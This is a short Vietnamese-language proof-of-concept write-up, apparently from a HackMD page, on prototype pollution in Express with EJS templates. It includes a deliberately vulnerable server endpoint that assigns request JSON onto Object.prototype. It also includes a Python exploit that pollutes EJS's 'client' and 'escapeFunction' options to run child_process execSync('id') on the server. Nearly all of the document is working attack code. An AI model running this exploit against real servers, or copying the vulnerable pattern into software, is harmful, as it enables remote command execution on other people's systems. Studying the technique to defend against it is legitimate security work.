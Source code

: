
# Express js 
- Để kiểm chứng việc truyền object trống vào options ta có thể xem sơ qua source của express js ta sẽ thấy đoạn sau  : 
![image](https://hackmd.io/_uploads/BkWcAZyueg.png)
Vì luôn có options object nên Express default cũng có thể bị lỗi này .
### POC : 
Server.js :
```js 
const express = require('express');
const path = require('path');

const bodyParser = require('body-parser');

const app = express();
app.use(bodyParser.json());


// Set EJS as the template engine
app.set('view engine', 'ejs');

// Set the views directory
app.set('views', path.join(__dirname, 'views'));

app.post("/pollute_me", (req, res) => {
    // Prototype pollution vulnerability here
    Object.assign(Object.prototype, req.body);
    console.log({}.client)
    res.send('Updated!');
})
// Define a simple route
app.get('/', (req, res) => {
    res.render('index', { title: 'Hello EJS', message: 'Welcome to EJS Template!' });
});

// Start the server
const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
    console.log(`Server running on http://localhost:${PORT}`);
});

```
ex.py  : 

```py 
import  requests
url = "http://localhost:3000"
escapeFunction = "JSON.stringify; console.log(1337);let cp = process.mainModule.require('child_process');console.log(cp.execSync('id').toString());"
data  = { 
        "client" : '123' ,
        "escapeFunction" : escapeFunction
}
res = requests.post(url+'/pollute_me' ,json=data)
print(res.text)
requests.get(url)

```
